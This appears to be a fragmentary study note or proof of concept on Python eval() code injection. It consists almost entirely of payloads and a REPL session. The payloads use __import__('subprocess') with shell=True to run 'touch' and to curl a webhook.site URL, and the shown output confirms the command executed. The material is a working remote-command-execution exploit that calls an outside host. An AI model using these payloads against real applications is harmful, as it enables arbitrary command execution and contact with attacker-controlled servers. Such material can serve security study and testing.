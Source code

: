 - eval(ourinput)
- one way
- `__import__('subprocess').run(['touch testpage'],shell=True)`
- `__import__('subprocess').run(['curl https://webhook.site/db31d100-9c30-462b-bc60-0f3c967b42f0'],shell=True)`
```
>>> eval("__import__('subprocess').run(['curl https://webhook.site/db31d100-9c30-462b-bc60-0f3c967b42f0'],shell=True)")
<html>
<body>
body written at 1.30
</body>
</html>CompletedProcess(args=['curl https://webhook.site/db31d100-9c30-462b-bc60-0f3c967b42f0'], returncode=0)
>>> 

```
